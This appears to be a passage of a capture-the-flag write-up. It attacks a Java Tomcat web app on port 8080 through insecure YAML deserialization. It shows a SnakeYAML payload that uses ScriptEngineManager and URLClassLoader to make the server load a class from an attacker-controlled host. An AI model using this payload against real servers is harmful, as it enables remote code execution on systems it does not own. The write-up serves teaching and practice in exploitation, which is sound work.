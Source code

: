 The Nmap scan revealed that not many ports are open on this machine. SSH is rarely an attack vector on its own, so we will start with the Apache Tomcat server on port 8080. 

![](images/Pasted%20image%2020210914140819.png)

When clicking on the "PARSE" button, we get redirected to a page that says that this feature has been put on hold. 

![](images/Pasted%20image%2020210914141438.png)



# Insecure Deserialization

While we may not get any output, we have no reason to believe that the YAML being sent isn't being parsed anyways. YAML is a human readable serialization language that is designed to work with a variety of different programming languages. As a result, this web application is potentially vulnerable to an insecure deserialization attack. This web server is running Apache Tomcat, so we can assume for now that it is using Java. The first thing we will want to do is to get some sort of confirmation that the web server is in fact parsing the YAML provided. To do this, we will send a YAML payload that makes a request back to a web server that we control. The payload we will be using can be found here: https://github.com/artsploit/yaml-payload.

```default
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.16/"]
  ]]
]
```
